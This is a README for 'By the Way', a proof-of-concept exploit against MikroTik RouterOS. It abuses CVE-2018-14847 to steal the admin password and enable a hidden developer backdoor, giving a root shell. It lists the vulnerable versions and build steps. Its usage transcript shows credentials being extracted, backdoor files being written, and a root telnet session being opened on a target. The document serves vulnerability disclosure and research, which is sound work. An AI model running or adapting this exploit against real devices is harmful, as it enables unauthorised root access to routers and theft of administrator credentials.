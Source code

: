 # By the Way

By the Way is an exploit that enables a root shell on Mikrotik devices running RouterOS versions:

Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3

The exploit leverages the path traversal vulnerability CVE-2018-14847 to extract the admin password and create an "option" package to enable the developer backdoor. Post exploitation the attacker can connect to Telnet or SSH using the root user "devel" with the admin's password.

Mikrotik patched CVE-2018-14847 back in April. However, until this PoC was written, I don't believe its been publicly disclosed that the attack can be levegered to write files. You can find Mikrotik's advisory here:

* https://blog.mikrotik.com/security/winbox-vulnerability.html

Note that, while this exploit is written for Winbox, it could be ported to HTTP as long as you had prior knowledge of the admin credentials.

## Dependencies
This PoC relies on:

* Boost
* pthread
* cmake

## Build Insturctions

```sh
albinolobster@ubuntu:~/mikrotik$ cd poc/bytheway/
albinolobster@ubuntu:~/mikrotik/poc/bytheway$ mkdir build
albinolobster@ubuntu:~/mikrotik/poc/bytheway$ cd build/
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ cmake ..
-- The C compiler identification is GNU 7.3.0
-- The CXX compiler identification is GNU 7.3.0
-- Check for working C compiler: /usr/bin/cc
-- Check for working C compiler: /usr/bin/cc -- works
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Detecting C compile features
-- Detecting C compile features - done
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Boost version: 1.65.1
-- Found the following Boost libraries:
--   program_options
--   system
--   regex
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/mikrotik/poc/bytheway/build
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ make
Scanning dependencies of target btw
[ 20%] Building CXX object CMakeFiles/btw.dir/src/main.cpp.o
[ 40%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/md5.cpp.o
[ 60%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/winbox_session.cpp.o
[ 80%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/winbox_message.cpp.o
[100%] Linking CXX executable btw
[100%] Built target btw
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ 
```

## Usage Example

```sh
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 
Login failed, incorrect username or password

Connection closed by foreign host.
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ ./btw -i 192.168.1.251

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴ 

[+] Extracting passwords from 192.168.1.251:8291
[+] Searching for administrator credentials 
[+] Using credentials - admin:lol
[+] Creating /pckg/option on 192.168.1.251:8291
[+] Creating /flash/nova/etc/devel-login on 192.168.1.251:8291
[+] There's a light on
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2017.03.02-08:29+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5 #1 Thu Mar 2 08:16:25 UTC 2017 mips unknown
# cat /rw/logs/VERSION
v6.38.4 Mar/08/2017 09:26:17
# Connection closed by foreign host.
```

